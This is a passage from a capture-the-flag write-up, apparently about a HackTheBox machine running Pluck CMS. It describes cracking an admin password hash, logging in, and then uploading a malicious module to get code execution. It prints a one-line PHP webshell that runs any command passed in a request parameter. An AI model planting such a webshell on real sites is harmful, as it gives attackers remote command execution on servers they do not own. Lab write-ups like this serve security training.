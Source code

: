 This is a bit weird, but `$cont1` is actually `$_POST['cont1']`. This transformation is made in this include of `data/inc/variables.all.php`:

![image-20240722173357040](/img/image-20240722173357040.png)

At the bottom it sets these:

![image-20240722173417695](/img/image-20240722173417695.png)

## Shell as www-data

### Access Pluck Admin

#### Crack Hash

I’ve got a SHA512 hash for admin access to Pluck. [CrackStation](https://crackstation.net/) has it:

![image-20240722173537925](/img/image-20240722173537925.png)

#### Login

On entering the password, it reports correct:

![image-20240722173608480](/img/image-20240722173608480.png)

And then shows the admin panel:

![image-20240722173629137](/img/image-20240722173629137.png)

### RCE

#### Identify Vulnerability

Given the exact version of Pluck CMS, I can look for vulnerabilities, and there is one:

![image-20240722153542651](/img/image-20240722153542651.png)

There’s no CVE ID for this. That’s because it’s not actually a vulnerability, but rather, as admin, I can upload a plugin that writes PHP files. [This video](https://www.youtube.com/watch?v=GpL_rz8jgro) shows the process.

#### Create “Module”

I’ll create a malicious Pluck module following the same process I used in [Mist](/2024/10/26/htb-mist.html#webshell-pluck-module). To start, I’ll create a simple PHP webshell named `0xdf.php` in a directory:

```

oxdf@hacky$ cat 0xdf.php 
<?php system($_REQUEST['cmd']); ?>

```
